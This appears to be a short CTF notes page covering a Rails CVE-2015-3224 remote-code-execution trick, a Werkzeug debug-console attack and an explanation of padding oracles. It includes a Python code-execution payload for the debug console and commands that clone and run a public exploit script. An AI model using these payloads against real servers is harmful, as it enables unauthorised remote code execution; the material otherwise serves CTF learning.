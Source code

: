 ## CTF Badge

### CVE-2015-3224:
Rails 4.0 and 4.1 X-Forwarded-For:localhost on 404 -> RCE


### Werkzeug DEBUG

This challenge was written for Ruxcon CTF 2015 and cover the Debug mode of Werkzeug/Flask

go to url/console
use __import__('os').popen('<cmd>').read()

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
cd Werkzeug-Debug-RCE
chmod +x werkzeug.py
python werkzeug.py ptl-63e89638-8b2f2181.libcurl.so ls

### Padding Oracle

- CBC is an encryption mode in which the message is split into blocks of X bytes length and each block is XORed with the previous encrypted block. The result is then encrypted.
- Padding can be done in multiple ways. A common way is to use PKCS7. With PKCS7, the padding will be composed of the same number: the number of bytes missing. For example, if the cleartext is missing 2 bytes, the padding will be \x02\x02.
- During the cleanup of the padding, if an invalid padding triggers a detectable behavior, you have a padding oracle. The detectable behavior can be an error, a lack of results, or a slower response.


